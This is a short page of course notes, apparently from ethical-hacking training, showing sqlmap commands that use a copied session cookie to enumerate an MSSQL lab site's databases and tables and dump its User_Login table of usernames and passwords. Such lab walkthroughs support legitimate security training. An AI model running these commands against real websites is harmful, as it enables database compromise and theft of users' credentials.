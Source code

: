 [Home](../README.md)

# Module 15: SQL Injection

## Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
https://sqlmap.org/ - is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied from console type document.cookie]" --dbs```
sqlmap retrieves the databases present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS, as shown in the screenshot.
![img_1.png](screenshots/module15-1.png)

```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied console type document.cookie]" -D moviescope --tables```
sqlmap retrieves the table contents of the moviescope database and displays them, as shown in screenshot.
![img.png](screenshots/module15-2.png)

```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied console type document.cookie]" -D moviescope -T User_Login --dump```
sqlmap retrieves the complete User_Login table data from the database moviescope, containing all users’ usernames under the Uname column and passwords under the password column, as shown in screenshot.
![img.png](screenshots/module15-3.png)


## 